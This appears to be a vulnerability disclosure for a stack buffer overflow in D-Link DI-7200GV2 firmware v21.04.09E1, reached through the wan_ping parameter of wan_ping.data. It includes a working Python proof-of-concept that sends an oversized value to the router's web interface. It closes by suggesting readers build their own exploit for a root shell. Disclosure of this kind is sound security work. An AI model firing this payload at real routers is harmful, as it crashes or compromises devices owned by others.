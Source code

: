 # Affected Version
D-Link device DI-7200GV2 v21.04.09E1
# Vulnerability Description
D-Link device DI-7200GV2 v21.04.09E1 was discovered to contain a stack overflow via parameter wan_ping in the wan_ping.data.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7000G+V2%e7%b3%bb%e5%88%97

# Vulnerability Details
First, set the nvram value of wan_ping in the jhttpd binary at function sub_46E1C0() via wan_ping.data.
![Alt text](1.png) 
Then, the function wan_ping_data() retrives the value of 'wan_ping' from nvram.Finally,the value of 'wan_ping' from nvram is concatenated to the sprintf function, which leads to a buffer overflow vulnerability.  
![Alt text](2.png)

# Recurring vulnerabilities and POC
First, we boot the image via FirmAE.  
![Alt text](3.png)
Then,we login in to 192.168.0.1.  
![Alt text](4.png) 
Finally, we send the following poc:  
<pre>
import requests
from requests import exceptions
url = "http://192.168.0.1/wan_ping.data"

params = {
    "wan_ping": "a"*0x140000
}

headers = {
    "Host": "192.168.0.1",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    "Connection": "close"
}

response = requests.get(url, params=params, headers=headers)
print(response)
</pre>

![Alt text](5.png)

And you can write your own exp to get the root shell.